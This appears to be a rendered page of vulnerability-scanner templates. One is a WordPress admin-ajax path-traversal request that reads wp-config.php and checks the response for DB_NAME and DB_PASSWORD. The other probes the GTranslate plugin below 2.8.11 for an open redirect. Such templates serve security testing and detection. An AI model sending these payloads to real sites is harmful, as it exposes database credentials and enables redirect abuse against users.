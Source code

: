 ## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-admin/admin-ajax.php?jvfrm_spot_get_json&fn=../../wp-config.php&callback=jQuery

### Matchers

**Type - word**

- part - body
- words
  1. DB_NAME
  2. DB_PASSWORD
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress GTranslate \<2.8.11 - Open Redirect

## Description

- Translate WordPress with GTranslate plugin before 2.8.11 contains an open redirect vulnerability. An attacker can redirect a user to a malicious site and possibly obtain sensitive information, modify data, and/or execute unauthorized operations.
- severity - medium
- tags - redirect,wordpress

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/gtranslate/url_addon/gtranslate.php?glang=en&gurl=/www.pluginvulnerabilities.com

### Matchers

**Type - word**

- words
  1. Location: www.pluginvulnerabilities.com
- part - header

